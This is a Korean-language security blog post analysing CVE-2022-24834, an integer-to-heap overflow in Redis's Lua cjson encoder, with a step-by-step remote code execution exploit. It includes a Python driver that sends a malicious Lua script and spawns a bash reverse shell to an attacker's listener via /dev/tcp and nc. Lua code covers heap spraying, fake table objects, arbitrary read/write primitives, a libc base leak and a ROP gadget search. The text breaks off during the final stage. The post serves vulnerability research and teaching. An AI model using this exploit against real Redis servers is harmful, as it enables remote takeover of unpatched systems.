


# Introduction

안녕하세요, pwndorei입니다. 또 다시 연구글로 돌아왔습니다! 이번에는 Redis입니다!  Redis면 데이터베이스인데 막 query를 날린다거나 페이로드를 데이터베이스에 저장한다거나 그런 식으로 트리거되는 취약점은 아니고요 ㅋㅋㅋㅋ 오히려 전에 다룬 Adobe 취약점과 유사한 부분이 있습니다. 무튼 이번에는 제목에 쓰여있는 것처럼 CVE-2022-24834 분석 및 익스플로잇이고 저번처럼 알차게 담았습니다!


> ~~너무 알차서 사고 정지되어도 전 모릅니더~~
> 

# 1. 취약점 정보

## Description

CVE-2022-24834는 in-memory 데이터베이스인 Redis에서 발생한 취약점입니다. 아래의 취약한 버전의 Lua 스크립팅을 지원하는 Redis에서 공통적으로 발견된 취약점이며 Lua에서 JSON 인코딩 및 파싱을 위해 사용하는 모듈인 cjson에서 Integer Overflow가 발생한 것이 원인이고 Redis Server에 접속하고 Lua Script를 실행하는 것으로 버그를 트리거하는 것이 가능합니다.

이후 Integer Overflow로 인해 발생하는 Heap Overflow로 Remote Code Execution이 가능합니다. 

## Affected Product & Version Information

- Redis
    - 7.0.0 ≤ version < 7.0.12
    - 6.2.0 ≤ version < 6.2.13
    - 2.6.0 ≤ version < 6.0.20

# 2. 취약점 분석

---

취약점은 Redis의 Lua에서 사용하는 모듈인 cjson의 `json_append_string` 함수에서 발생하며 모든 취약한 버전에서 동일한 Root cause를 가집니다.

## `json_append_string`

이 함수의 소스코드는 아래와 같습니다.

```c
/* json_append_string args:
 * - lua_State
 * - JSON strbuf
 * - String (Lua stack index)
 *
 * Returns nothing. Doesn't remove string from Lua stack */
static void json_append_string(lua_State *l, strbuf_t *json, int lindex)
{
    const char *escstr;
    int i;
    const char *str;
    size_t len;

    str = lua_tolstring(l, lindex, &len);// [1]

    /* Worst case is len * 6 (all unicode escapes).
     * This buffer is reused constantly for small strings
     * If there are any excess pages, they won't be hit anyway.
     * This gains ~5% speedup. */
    strbuf_ensure_empty_length(json, len * 6 + 2);    // [2]

    strbuf_append_char_unsafe(json, '\\"');     // [3]
    for (i = 0; i < len; i++) {
        escstr = char2escape[(unsigned char)str[i]];
        if (escstr)
            strbuf_append_string(json, escstr);
        else
            strbuf_append_char_unsafe(json, str[i]);
    }
    strbuf_append_char_unsafe(json, '\\"');
}

```

이 함수의 주요 기능은 Lua의 문자열 오브젝트를 JSON 문자열로 변환하는 것입니다. 소스코드를 크게 `[1]`, `[2]`, `[3]`의 세 단계로 나누어 분석하면 아래와 같습니다.

### 1. Lua String → C String

```c
str = lua_tolstring(l, lindex, &len);// [1]
```

첫 번째 인자 `lua_State *l`과 두 번째 인자인 `int lindex`를 인자로 `lua_tolstring`함수를 호출하고 이는 인코딩할 Lua 문자열을 C 문자열로 변환하여 반환합니다. C 문자열의 길이는 세 번째 인자로 전달된 `size_t len`에 저장됩니다.

### 2. `strbuf_ensure_empty_length`

```c
strbuf_ensure_empty_length(json, len * 6 + 2);    // [2]
```

인코딩된 JSON 문자열이 저장될 메모리를 할당하는 동작을 합니다. 그 결과, `len * 6 + 2` 크기의 메모리가 할당됩니다. 

이는 인코딩 과정에서 1바이트의 문자가 Unicode Escape되면 `\uXXXX`형태의 총 6바이트의 문자열로 변환되기 때문으로 만약 인코딩할 문자열의 모든 문자가 escape될 경우 원래 길이의 여섯 배가 되기 때문입니다. 또한 2를 더하는 이유는 JSON 문자열의 맨 앞과 끝에 추가할 두 개의 쌍따옴표로 인해 추가적인 2바이트가 사용되기 때문입니다.

`strbuf_ensure_empty_length`함수의 소스코드는 아래와 같습니다.

`strbuf_empty_length`로 반환된 버퍼의 남은 공간의 크기가 요청된 길이보다 작으면 `strbuf_resize` 함수를 호출하고 이 함수의 내부에서는 `realloc`이 호출되어 메모리 할당이 발생합니다.

```c
static inline void strbuf_ensure_empty_length(strbuf_t *s, int len)
{
    if (len > strbuf_empty_length(s))
        strbuf_resize(s, s->length + len);
}
```

### 3. Unicode Escape

```c
strbuf_append_char_unsafe(json, '\\"');     // [3]
for (i = 0; i < len; i++) {
    escstr = char2escape[(unsigned char)str[i]];
    if (escstr)
        strbuf_append_string(json, escstr);
    else
        strbuf_append_char_unsafe(json, str[i]);
}
strbuf_append_char_unsafe(json, '\\"');
```

`for` 반복문의 앞과 뒤에서 쌍따옴표를 하나씩 추가하고 반복문 내부에서는 데이터를 `[2]` 단계에서 할당한 메모리에 쓰는 것을 확인 할 수 있습니다. escape되는 문자의 경우, `strbuf_append_string` 함수 호출을 통해 escape된 문자열을 추가하고 escape되지 않는 문자는 `strbuf_append_char_unsafe`함수를 통해 단순히 복사합니다. `char *char2escape[256]`은 모든 아스키 문자에 대한 Unicode escape된 문자열을 가리키는 포인터로 escape되지 않는 문자에 대해서는 NULL을 가리킵니다.

## Root Cause

발생하는 취약점은 Integer Overflow로 `[2]` 단계에서 `strbuf_ensure_empty_length`함수 호출에 사용한 `size_t` 자료형인 `len * 6 + 2`가 `int` 자료형으로 캐스팅된 것이 원인입니다. 

`size_t` 자료형인 `json_append_string`함수의 `len * 6 + 2`가 `strbuf_ensure_empty_length`의 `int len`으로 사용되면서 64비트 크기인 `size_t`에서 32비트 크기인 `int`로 캐스팅이 발생합니다. 이때 연산 결과의 상위 32비트는 사라지게 되고 만약 `len * 6 + 2`가 32비트로 전부 표현할 수 없는 값이라면 Integer Overflow가 발생하고 의도한 크기보다 작은 버퍼가 할당되게 만들 수 있습니다.

 이로 인해 `[3]` 단계에서 인코딩된 데이터를 버퍼에 쓸 때 Heap Overflow까지 발생하게 됩니다.

# 3. 패치 분석

---

그럼 이제 익스플로잇에 앞서 어떻게 패치가 이루어졌는지 분석해봅시다. 이 취약점은 Redis 버전 [7.0.12](https://github.com/redis/redis/pull/12401/commits/5c5441d16682803ebf8de9ebd8d438517aef9d89), [6.2.13](https://github.com/redis/redis/pull/12400/commits/e47c1f5f7bc150b0c1774b65bc2dba7e116da4f0#diff-dd930db7f554182383e7581313c58c5a4fe4ee88dbd9b448f056f070bbb62336), [6.0.20](https://github.com/redis/redis/pull/12399/commits/8e97274dd5be535033e7f31cd0cd99cf37e1cb0b) 버전에서 아래와 같이 패치되었습니다.

오픈소스라 그런지 취약점 분석도 그렇고 여러모로 편리하네요.



> ~~사실 IDA로 보는게 더 재밌음~~
> 

## `json_append_string` : Patched

```c
static void json_append_string(lua_State *l, strbuf_t *json, int lindex)
{
    const char *escstr;
    int i;
    const char *str;
    size_t len;

    str = lua_tolstring(l, lindex, &len);

    /* Worst case is len * 6 (all unicode escapes).
     * This buffer is reused constantly for small strings
     * If there are any excess pages, they won't be hit anyway.
     * This gains ~5% speedup. */
    if (len > SIZE_MAX / 6 - 3) // [1]
        abort(); /* Overflow check */
    strbuf_ensure_empty_length(json, len * 6 + 2);

    strbuf_append_char_unsafe(json, '\"');
    for (i = 0; i < len; i++) {
        escstr = char2escape[(unsigned char)str[i]];
        if (escstr)
            strbuf_append_string(json, escstr);
        else
            strbuf_append_char_unsafe(json, str[i]);
    }
    strbuf_append_char_unsafe(json, '\"');
}
```

`json_append_string` 함수는 `[1]`에서 볼 수 있는 것처럼 Integer Overflow가 발생하는지 확인하는 부분을 추가되었습니다. 추가된 부분에서는 아키텍처에 따라 64비트나 32비트의 unsigned integer의 최댓값으로 정의되는 `SIZE_MAX`를 6으로 나누고 3을 뺀 값과 `len`을 비교합니다.

 만약 `len`이 더 크다면 `strbuf_ensure_empty_length` 함수 호출을 위해 `len * 6 + 2`를 계산하는 과정에서 Integer Overflow가 발생하기 때문에 `abort()`를 호출하여 프로세스를 종료합니다.

## `strbuf_ensure_empty_length` : Patched

```c
static inline void strbuf_ensure_empty_length(strbuf_t *s, size_t len)
{
    if (len > strbuf_empty_length(s))
        strbuf_resize(s, s->length + len);
}
```

`strbuf_ensure_empty_length` 함수에서는 두 번째 인자인 `len`의 자료형이 `int`에서 `size_t`로 변경되는 것으로 패치되었습니다. 따라서 기존과 같은 방법으로는 Integer Overflow가 발생하지 않게 되었고 `strbuf_empty_length` 또한 `size_t`를 반환하도록 변경되었습니다.

따라서 패치 이후 Integer Overflow를 유발하기 위해서는 64비트를 기준으로 길이가 대략 0x2AAAAAAAAAAAAAAB인 문자열을 전달해야 하고 이는 실용적이지 못하며 Integer Overflow가 발생하더라도 `json_append_string`함수에서 탐지되어 프로세스가 종료됩니다.

이외에도 해당 취약점과 유사하거나 같은 방식으로 Integer Overflow가 발생할 가능성이 있는 부분에 Integer Overflow를 검사하는 코드가 추가되거나 `int` 자료형을 사용하던 부분이 `size_t` 나 다른 64비트 정수 자료형으로 대체되었습니다.

# 4. Exploitation

---

해당 취약점을 악용하면 Heap Corruption을 발생시켜 Denial of Service나 힙에 할당된 Lua Object를 덮어쓰고 Fake Object를 구성하여 Remote Code Execution이 가능합니다.

익스플로잇을 하기 위해서는 Redis Server에 접속하고 Lua 스크립트를 전송할 필요가 있기 때문에 아래와 같은 python코드를 사용합니다.

```python
# redis_cve-2022-24834.py
import pwn
import threading
import subprocess
import sys

pwn.context.log_level = "debug"

class Redis:
    def __init__(self, host='192.168.45.250', port=6379):
        self.host = host
        self.port = port
        self.conn = None

    def prepare(self, data):
        if isinstance(data, int):
            return f":{data}\r\n".encode()
        elif isinstance(data, str):
            return f"${len(data)}\r\n{data}\r\n".encode()
        elif isinstance(data, bytes):
            return f"${len(data)}\r\n".encode() + data + b"\r\n"
        elif isinstance(data, list):
            return f"*{len(data)}\r\n".encode() + b''.join([self.prepare(elm) for elm in data])
        elif data is None:
            return b"$-1\r\n"
        else:
            raise ValueError(f"Non-RESP type: {type(data)}")

    def cmd(self, argv):
        self.conn = pwn.remote(self.host, self.port)
        self.conn.send(self.prepare(argv))
        #self.conn.interactive()
        return self.recv()

    def recv(self):
        t = self.conn.recv(1)
        if t == b'+' or t == b'-':
            return self.conn.recvuntil(b"\r\n")[:-2]
        elif t == b':':
            return int(self.conn.recvuntil(b"\r\n")[:-2])
        elif t == b'$':
            s = int(self.conn.recvuntil(b"\r\n")[:-2])
            if s == -1:
                return None
            d = self.conn.recv(s)
            self.conn.recvuntil(b"\r\n")
            return d
        elif t == b'*':
            s = int(self.conn.recvuntil(b"\r\n")[:-2])
            return [redis_recv(sock) for i in range(s)]
        else:
            raise ValueError(f"What is this? {t}")

    def GET(self, key):
        return self.cmd(["GET", key])

    def EVAL(self, script):
        return self.cmd(["EVAL", script, "0"])

class ShellServer:
    def __init__(self, lport=4444, lhost='0.0.0.0'):
        self.lhost = lhost
        self.lport = lport

    def run(self):
        #l = pwn.listen(self.lport, self.lhost)
        #target = l.wait_for_connection()
        #target.interactive()
        subprocess.run(["nc", "-lnvp", str(self.lport)])

def main():

    if len(sys.argv) != 6:
        print(f"USAGE: python {sys.argv[0]} redis_host redis_port listen_host listen_port script_file")
        sys.exit(-1)

    redis_host, redis_port, lhost, lport, lua_script = sys.argv[1:]
    

    debug = False

    print(f"[*] Starting server on {lhost}:{lport}")
    shell_server = ShellServer(lport)
    shell_server = threading.Thread(target=ShellServer().run)
    shell_server.start()

    print(f"[*] Sending evil lua script to {redis_host}:{redis_port}")
    redis = Redis(redis_host, redis_port)

    cmd = f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'".encode()
    evil_lua_script = open(lua_script, "rb").read().replace(b"[CMD]", cmd)
    r = redis.EVAL(evil_lua_script)

    if debug:
        if r: print(repr(r))

if __name__ == "__main__":
    main()
```

위 스크립트는 명령줄 인자로 받은 공격할 Redis Server의 IP 주소와 port를 사용하여 서버에 접속하고 RCE로 실행한 리버스쉘을 위해 listen할 host와 port를 지정합니다. 마지막 인자로는 실행할 Lua 스크립트를 전달하여 접속한 Redis Server에서 `EVAL` 커맨드로 실행합니다.

## Remote Code Execution : Redis Version 6.2.12 & 7.0.11

그럼 먼저 Redis 6.2.12와 7.0.11에서의 익스플로잇을 알아봅시다!

### 제약사항

RCE 익스플로잇을 위해 고려해야 할 사항은 아래와 같습니다.

1. 과도한 Heap Corruption
2. Unicode escape된 데이터와 양 끝의 제어 불가능한 double quote
3. ASLR & PIE

첫 번째로 Integer Overflow의 결과 대량의 데이터가 Overwrite되기에 RCE를 달성하기 전에 크래시가 발생할 위험이 있다는 것입니다. 또한 쓰이는 데이터는 unicode escape되기 때문에 완전히 제어하는 것이 불가능하고 데이터의 마지막은 항상 `"`(0x22)로 끝나게 됩니다.

마지막으로 redis-server 바이너리는 PIE가 활성화되어 있고 프로세스가 동작하는 시스템에서 ASLR이 활성화되어 있는 경우 address leak이 요구됩니다. 

익스플로잇은 [이전 글](https://hackyboiz.github.io/2024/08/04/pwndorei/1day1document_CVE-2023-21608/)에서 javascript를 사용한 것처럼 Lua의 오브젝트를 변조해서 임의 주소 읽기/쓰기 등의 primitive를 생성하고 이를 활용해서 최종적으로는 Fake Closure object를 만들어서 임의 코드를 실행합니다.

### 1. Partial Overwrite `Table.array`

Overflow될 데이터를 온전히 제어하지 못하기에 Partial Overwrite로 Lua의 `Table` 오브젝트의 `array` 필드를 조작합니다.

Lua의 모든 오브젝트는 아래의 `TValue` 구조체에 의해 관리되고 Lua에서는 이를 통해 변수를 다루게 됩니다.

```c
typedef union {
  GCObject *gc;
  void *p;
  lua_Number n;
  int b;
} Value;

#define TValuefields	Value value; int tt

typedef struct lua_TValue {
  TValuefields;
} TValue;
```

`int tt` 필드는 오브젝트의 타입을 나타내며 아래의 값 중 하나로 설정됩니다.

```c
#define LUA_TNONE		(-1)

#define LUA_TNIL		0
#define LUA_TBOOLEAN		1
#define LUA_TLIGHTUSERDATA	2
#define LUA_TNUMBER		3
#define LUA_TSTRING		4
#define LUA_TTABLE		5
#define LUA_TFUNCTION		6
#define LUA_TUSERDATA		7
#define LUA_TTHREAD		8
```

익스플로잇에 사용되는 `Table`의 정의는 아래와 같습니다

```c
typedef struct Table {
   CommonHeader;
   /*
      GCObject *next;
      lu_byte tt;
      lu_byte marked;
   */
   lu_byte flags;  /* 1<<p means tagmethod(p) is not present */
   int readonly;
   lu_byte lsizenode;  /* log2 of size of `node' array */
   struct Table *metatable;
   TValue *array;  /* array part, offset: 0x20 */
   Node *node;
   Node *lastfree;  /* any free position is before this position */
   GCObject *gclist;
   int sizearray;  /* size of `array' array, offset: 0x40 */
} Table;
```

Lua에서 `local t = {}`와 같이 테이블을 생성하면 `Table` 구조체와 테이블에 저장된 오브젝트를 가리킬 `TValue` 배열이 힙에 할당되고 `TValue` 배열을 `Table`의  `array` 필드가 가리켜 아래와 같은 형태가 됩니다.



> 그림.1 [출처](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
> 

Overflow가 발생하는 버퍼보다 높은 주소에 할당된 `Table`의 `array`를 Partial Overwrite하여 LSB를 `"`(0x22)로 변환하면 실제 배열과 가까운 다른 주소를 가리키게 만들 수 있습니다. 이 주소에 사전에 가짜 배열(fake array)를 구성해둔다면 아래와 같이 Fake Object에 접근할 수 있습니다.


> 그림.2 [출처](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
> 

### 2. Fake Table

익스플로잇 코드에서는 아래와 같이 조작된 `array`가 가리키는 배열의 첫 번째 원소로 사용될 Fake Table을 구성합니다.

```lua
   local heap_addr_leaker = {}
   local fake_array_base = addrof(heap_addr_leaker)
   ...
   local fake_table_template = ( -- TString
   -- TString -> 0x18 bytes
      -- typedef union TString {
         -- L_Umaxalign dummy;  /* ensures maximum alignment for strings */
         -- struct {
            -- CommonHeader;
            -- lu_byte reserved;
            -- unsigned int hash;
            -- size_t len;
         -- } tsv;
      -- } TString;
      "SSSSSSSSFF" -- (pad for address 0xXXXXXX2'2') -- start from offset 0x18, until 0x22
      .. "\000\000\000\000\000\000\000\000" -- *next
      .. "\005" -- tt (LUA_TTABLE)
      .. "\001" -- marked
      .. "\000" -- flags
      .. "\000\000\000\000\000" -- ~ int readonly
      .. "\000\000\000\000\000\000\000\000" -- _padding_ for  lu_byte lsizenode
      .. "\000\000\000\000\000\000\000\000" -- *metatable
      .. p64(fake_array_base) -- *array --> low heap address
      .. "\000\000\000\000\000\000\000\000" -- *node
      .. "\000\000\000\000\000\000\000\000" -- *lastfree
      .. "\000\000\000\000\000\000\000\000" -- *gclist
      .. "\255\255\255\127\000\000\000\000" -- sizearray
   )
   ...
```

이렇게 구성된 Fake Table을 사용하면 아래와 같이 Fake Table의 `array` 가 가리키는 힙의 낮은 주소부터 Fake Array가 형성되고 Fake Table의 `sizearray` 가 `int` 자료형 최댓값인 0x7fffffff로 설정되어 있기 때문에 전체 힙 메모리에 접근할 수 있습니다. [CVE-2023-21608의 익스플로잇](https://hackyboiz.github.io/2024/08/04/pwndorei/1day1document_CVE-2023-21608/#1-Create-Corrupted-ArrayBuffer)에서 `ArrayBuffer`의 size 필드를 조작해서 OOB access에 사용하는 것과 동일한 용도인 거죠!…


> 그림.3 [출처](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
> 

 Lua에서는 `Table` 등의 오브젝트를 인자로 `tostring` 함수를 호출하면 오브젝트가 할당된 힙의 주소가 포함된 문자열이 반환됩니다. `addrof` 함수에서는 이를 이용하여 오브젝트의 주소를 가져오고 이를 통해 힙에 적용된 ASLR을 우회하고 Fake Array의 시작 주소인 `fake_array_base`를 설정합니다.

### 3. Heap Feng-Shui & Spary

익스플로잇 코드에서는 그림.2와 같은 메모리 구성을 만들기 위해 Heap Spary를 진행합니다.

```lua
   local fakes_s = {}
   local fakes_t = {}
   local fakes_num = 100
   for i=1,fakes_num do
      fakes_s[i] = 0
      fakes_t[i] = 0
   end
   for i=1,fakes_num do
      fakes_s[i] = fake_table_template .. number_strings[i]
      fakes_t[i] = {}
   end

   local target_ptr = nil
   for i=fakes_num,1,-1 do
      -- 0xXXXX22 fake table
      -- 0xXXXX80 table
      -- Note: Difference of addresses depends on #fakes_s[i]. DO NOT change the length
      if tostring(fakes_t[i]):sub(-2) == "80" then
         target_ptr = fakes_t[i]
         break
      end
   end
```

`fakes_s` 에는 Fake Table을 구성하고 `fakes_t`에는 일반적인 `Table`을 구성합니다. 이를 번갈아 Spary를 진행하면 `fakes_t[i]`에 저장된 `Table`의 `array` 주소가 0xXXXX80일 때 0xXXXX22의 주소에 Fake Table이 형성됩니다. 이러한 조건에 맞는 `fakes_t[i]`를 `target_ptr`에 저장하고 Partial Overwrite의 타겟으로 삼습니다.

이후 아래와 같이 `target_ptr`을 Spary하여 Partial Overwrite 성공 확률을 높이는데 사용할 `spary_holder`를 초기화하고 이후 할당되는 힙 청크가 연속적인 주소를 갖도록 다양한 크기로 여러 번 할당을 반복하여 메모리 할당자의 free list를 비웁니다.

Spray된 데이터보다 Overflow가 발생하는 encode 버퍼가 더 낮은 주소에 위치하도록 `cjson.encode_keep_buffer('on')`을 호출하여 할당된 버퍼가 재사용되게 만들고 Corruption으로 인한 크래시를 방지하기 위해 대량의 dummy chunk를 할당한 다음 `target_ptr`을 Spray합니다.

```lua
   local spray_holder = {}
   for i=1,128 do
      spray_holder[i] = {}
   end
   -- error(("spray_holder: %s"):format(tostring(spray_holder)))

   --
   -- Flush allocator caches
   --
   for i=1,0x42 do
      for j=1,200 do -- To increase reliability, make more iterations.
         refs[refs_i] = string.sub(string_source, 8*(j-1)+1, 8*(j-1)+1 + math.max(0, i*0x10 - string_overhead) - 1)
         refs_i = refs_i + 1
      end
   end
   for i = 1, 256 do
      refs[refs_i] = { string_source:byte(1, 0x1000 - 1 - 5) }
      refs_i = refs_i + 1
   end
   
   cjson.encode_keep_buffer('on')

   local top = string.sub(string_source, 0, 0x4000 - string_overhead - 1)
   local result = cjson.encode(top) 
   
   for i = 1, n_expand do
      heap_expand[i] = { string_source:byte(1, 0x1000 - 1 - 5) }
   end

   for i=1,#spray_holder do
      spray_holder[i][1] = target_ptr
   end
```

Spary가 끝난 시점에서의 힙은 아래와 같은 상태가 됩니다


`spray_holder[i][1] = target_ptr`를 반복적으로 수행하면서 target array를 가리키는 `Table`이 다수 할당되고 이중 하나의 `array` 필드를 Partial Overwrite로 `Fake Table`을 가리키게 만들 수 있습니다.

### 4. Heap Overflow

Spray를 완료한 후 `cjson.encode(evil)`을 호출하여 Overflow를 트리거합니다. 이후 `spary_holder`를 순회하면서 Partial Overwrite되어 `array` 필드의 LSB가 0x22인 오브젝트를 `fake_array`로 가져옵니다.

```lua
   --
   -- Trigger vulnerability: Heap overflow on encode_buf
   --
   refs[refs_i] = cjson.encode(evil)
   refs_i = refs_i + 1

   local fake_array = nil
   for i=1,#spray_holder do
      -- spray_holder[i][1][1] = 0x1337
      local obj = spray_holder[i][1]
      if tostring(obj):sub(-2) == "22" then
         fake_array = obj
         -- error(("found: %d"):format(i))
         break
      end
   end
   if fake_array == nil then
      error("Bad luck...")
   end
```

### 5. Arbitrary Address Read/Write

`fake_array`를 통해 넓은 힙 영역을 `TValue` 배열처럼 사용하여 접근할 수 있게 되었습니다. `fake_array[i]`와 같은 방식으로 배열에 접근하여 데이터를 읽거나 쓸 경우, Lua의 인덱스는 1부터 시작하기 때문에 `array[i-1]`의 `Value`와 `tt`에 접근하게 됩니다.

예를 들어, `fake_array[0x5] = 0`을 실행하면 `array[0x4].Value`에 0이 쓰이고 `array[0x4].tt`에는 3(`LUA_TNUMBER`)가 쓰이게 됩니다. 데이터를 읽을 때는 `tt`를 통해 타입을 식별하고 타입에 따라 적절한 데이터를 읽어 반환하게 됩니다. `TValue`가 0x10 크기의 구조체이기 때문에 데이터를 쓸 수 있는 주소는 0x0으로 끝나는 주소로 제한됩니다.

좀 더 자유로운 임의 주소 읽기/쓰기를 수행하기 위해 `fake_array`를 통해 추가적인 Fake Table을 생성합니다.

익스플로잇 코드에서는 아래처럼 새로운 Fake Table을 구성합니다.

```lua
   -- overwrite array pointer
   local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)
   fake_array[1 + ofs] = struct.unpack('d', p64(fake_array_base - 8))

   -- overwrite node pointer to NULL
   local ofs = math.floor((owow_array1_addr + 0x28 - (fake_array_base-8)) / 0x10)
   owow_array1[1 + ofs] = 0

   -- overwrite size
   local ofs = math.floor((owow_array1_addr + 0x40 - fake_array_base) / 0x10)
   fake_array[1 + ofs] = bytes_to_double("\255\255\255\127\000\000\000\000")
```

`owow_array1`은 사전에 생성된 `fake_array_base` 보다 높은 주소에 할당된 `Table`이고 `owow_array1_addr`은 이 `Table`의 주소를 가리킵니다.

먼저 `local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)`가 실행되어 `fake_array`를 통해 `owow_array1`의 `array` 필드에 접근하기 위한 인덱스를 계산합니다. `ofs`는 읽거나 쓸 주소값에서 Fake Table의 `array`가 가리키는 주소값을 뺀 다음 이를 0x10으로 나누어 계산됩니다.

이후 계산된 `ofs`를 사용하여 `array` 필드를 `fake_array_base-8`로 조작하면 `owow_array1`을 통해 0x8로 끝나는 주소에도 데이터를 쓸 수 있게 됩니다. 이 과정에서 `array` 필드가 `TValue.Value`로 해석되어 `fake_array_base - 8`이 쓰이고, 인접한 `node` 필드는 `tt`로 해석되어 3(`LUA_TNUMBER`) 값이 쓰입니다.

이로 인한 크래시를 방지하기 위해 `owow_array1`을 통해 `node` 필드를 `NULL`로 바꿉니다. `owow_array1`의 `array` 필드가 가리키는 주소가 `fake_array_base - 8`이기 때문에 0x8로 끝나는 힙 주소에 데이터를 쓰는 것이 가능합니다. 이후 `owow_array1`도 `fake_array`와 마찬가지로 `sizearray` 필드를 0x7fffffff로 조작합니다.

`fake_array`와 `owow_array1`을 이용한 임의 주소 읽기/쓰기를 구현한 함수는 아래와 같습니다.

```lua
   local function semi_aaw(addr, value)
      -- Warning: This will write 0x03 (qword) tag at addr + 8.
      local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)
      fake_array[1 + ofs] = struct.unpack('d', p64(addr))
      owow_array1[1] = value
   end

   local function semi_aar(addr)
      -- Warning: This requires 0x03 (qword) tag at addr + 8.
      local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)
      fake_array[1 + ofs] = struct.unpack('d', p64(addr))
      return owow_array1[1]
   end
```

`semi_aaw`는 `fake_array`를 통해 `owow_array1`의 `array` 필드를 쓰고자 하는 주소로 변경합니다.

이후 `owow_array1[1] = value`로 해당 주소에 특정 값을 쓸 수 있고 `semi_aar`도 같은 방식으로 데이터를 읽을 수 있으나 읽고자 하는 주소 + 0x8이 `TValue.tt`로 해석되기 때문에 해당 부분의 값이 3(`LUA_TNUMBER`)일 필요가 있습니다.

### 6. addrof & fakeobj

기존의 `addrof`는 `tostring` 함수를 활용하기 때문에 문자열이나 숫자와 같은 오브젝트의 주소는 가져올 수 없습니다. 따라서 익스플로잇 코드에서는 아래와 같이 `semi_aar`과 `semi_aaw`를 사용하여 모든 오브젝트 타입에 대해 주소를 가져올 수 있는 `addrof`를 재정의하고 임의 코드 실행을 위해 Fake Closure 오브젝트를 만들 때 사용할 `fakeobj`함수를 정의합니다.

```lua
   semi_aaw(addrof(leaker_array) + 0x28, int_to_double(3)) -- LUA_TNUMBER
   local leaker_array_array_addr = double_to_int(semi_aar(addrof(leaker_array) + 0x20)) 
   
   local function addrof(obj)
      leaker_array[1] = obj
      semi_aaw(leaker_array_array_addr + 8, int_to_double(3))
      return double_to_int(semi_aar(leaker_array_array_addr))
   end

   local function fakeobj(addr, tt)
      semi_aaw(leaker_array_array_addr, int_to_double(addr))
      semi_aaw(leaker_array_array_addr + 8, int_to_double(tt))
      return leaker_array[1]
   end
```

`leaker_array`는 사전에 할당된 `Table`로 `owow_array1`과 마찬가지로 `fake_array_base`보다 높은 주소에 위치합니다. `addrof` 구현을 위해 먼저 `leaker_array`의 `array` 필드가 가리키는 주소값이 필요합니다. `semi_aaw`로 `leaker_array`의 `node` 필드에 3을 쓰면 `semi_aar`로 `leaker_array`의 `array` 필드를 읽을 때 3이 `Value.tt`로 해석되면서 `array` 주소가 반환됩니다.

`addrof`에서는 `leaker_array[1]`에 주소를 가져올 오브젝트를 넣고 `leaker_array`의 `array` + 8의 주소에 3(`LUA_TNUMBER`)을 씁니다. 이후 `semi_aar`로 `leaker_array`의 `array`를 읽으면 오브젝트의 주소가 반환됩니다.

`fakeobj` 함수는 `semi_aaw`로 `leaker_array[1]`에 임의의 주소와 타입을 쓴 다음 이를 반환하는 것으로 Fake 오브젝트를 생성합니다.

### 7. Leak Library base

임의 코드 실행에 사용할 gadget과 함수 주소를 알아내기 위해 아래의 코드를 통해 libc base 주소를 유출하는 것이 가능합니다.

```lua
   local function find_libc_base(leak)
        leak = leak - (leak % 0x1000)
        -- while read_i64_at(leak) ~= 0x03010102464c4580 do
        while read_i32_at(leak) ~= 0x464c457f do
            leak = leak - 0x1000
        end
        return leak
    end
    ...
    local stack_leak = 0
    local libc_leak = 0

    local coro = 'xxx'
    local coro_fn = function()
        local coro_addr = addrof(coro)
        stack_leak = read_i64_at(coro_addr + 0xa8)
        -- libc_leak  = read_i64_at(stack_leak + 0x88)

        local i = 0
        while libc_leak == 0 do
            local cand = read_i64_at(stack_leak + i * 8)
            i = i + 1
            if cand > 0x7f0000000000 and cand < 0x800000000000 then
                libc_leak = cand
                coroutine.yield()
            end
        end

    end

    coro = coroutine.create(coro_fn)
    while not can_read(addrof(coro)) do
        coro = coroutine.create(coro_fn)
    end
    coroutine.resume(coro)
    local libc_base = find_libc_base(libc_leak)
```

위 코드는 coroutine을 통해 스택의 주소를 알아낸 다음 스택에서 읽은 데이터 중 라이브러리 주소로 추측되는 데이터를 인자로 `find_libc_base` 함수를 호출하여 라이브러리 베이스를 계산합니다

유출한 라이브러리 주소의 최하위 12비트를 모두 0으로 바꾼 다음 4바이트를 읽고 ELF 파일의 시그니처와 비교하는 방식으로 베이스 주소를 알아낼 수 있습니다.

### 8. Create Fake Function

익스플로잇은 최종적으로 아래와 같이 gadget 주소를 계산하고 `fakeobj`로 Fake `Closure` 오브젝트를 생성하고 이를 호출하는 것으로 임의의 코드를 실행합니다.

```lua
   local system_addr = resolve_symbol_gnu(libc_leak, "system")
   -- error("system at " .. string.format("0x%x", system_addr))

   local libc_base = find_libc_base(libc_leak)
   local finder = read_str_at(libc_base, 0x150000)

   -- mov rdi, qword ptr [rax] ; mov rax, qword ptr [rdi + 0x38] ; call qword ptr [rax + 0x10];
   local start_index, end_index = string.find(finder, "\72\139\56\72\139\71\56\255\80\16")
   local gadget1 = libc_base + start_index - 1
   -- error("gadget1 at " .. string.format("0x%x", gadget1))

   -- call qword ptr [rax + 0x18];
   local start_index, end_index = string.find(finder, "\255\80\24")
   local gadget2 = libc_base + start_index - 1
   -- error("gadget2 at " .. string.format("0x%x", gadget1))

